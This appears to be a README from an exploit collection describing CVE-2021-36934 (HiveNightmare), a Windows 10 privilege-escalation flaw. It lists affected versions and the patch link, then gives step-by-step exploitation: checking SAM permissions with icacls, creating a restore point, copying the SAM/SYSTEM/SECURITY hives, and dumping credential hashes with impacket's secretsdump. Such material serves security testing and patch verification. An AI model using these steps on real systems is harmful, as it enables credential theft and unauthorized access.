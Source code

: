 ### CVE-2021-36934

#### Describe

Windows Elevation of Privilege Vulnerability

#### ImpactVersion

| Product             | CPU Architecture | Version | Update | Tested             |
| ------------------- | ---------------- | ------- | ------ | ------------------ |
| Windows 10 | x64/x86/ARM64 | 1809 |  |  |
| Windows 10 | x64/x86/ARM64 | 1909 | |        |
| Windows 10 | x64/x86/ARM64 | 2004 | | &#10004; |
| Windows 10 | x64/x86/ARM64 | 20H2 | | |
| Windows 10 | x64/x86/ARM64 | 21H1 | | |

#### Patch

```
https://portal.msrc.microsoft.com/en-US/security-guidance/advisory/CVE-2021-36934
```

#### Utilization

CompilerEnvironment

- VS2019（V140）X64 Release
- VS2019（V140）X86 Release

Test system Windows 10 2004 X64

Use the command to see if the target system is vulnerable to attack

```
icacls C:\windows\system32\config\sam
```

When the following figure shows the machine, it is an easy attack.

![image-20210905164036648](https://raw.github.com/Ascotbe/Image/master/Kernelhub/CVE-2021-36934_Windows_10_2004_X64_1.png)

Then you need to turn on the system restore, right key "This computer-> property", click "System Protection -> Configuration -> Enable System Protection -> Apply -> OK"

![image-20210905164831213](https://raw.github.com/Ascotbe/Image/master/Kernelhub/CVE-2021-36934_Windows_10_2004_X64_2.png)

Then create a system restore point

![image-20210905164912574](https://raw.github.com/Ascotbe/Image/master/Kernelhub/CVE-2021-36934_Windows_10_2004_X64_3.png)

Then you can get the system's SAM and SYSTEM and SECURITY files using Exp. 

![1](https://raw.github.com/Ascotbe/Image/master/Kernelhub/CVE-2021-36934_Windows_10_2004_X64_4.gif)

Finally, use the IMPACKET project to log in.

```
git clone https://github.com/SecureAuthCorp/impacket.git 
cd impacket/examples 
python3 secretsdump.py -sam SAM-2021-07-11 -system SYSTEM-2021-07-11  -security SECURITY-2021-07-11 LOCAL
```



#### CodeSource

- [GossiTheDog](https://github.com/GossiTheDog/HiveNightmare)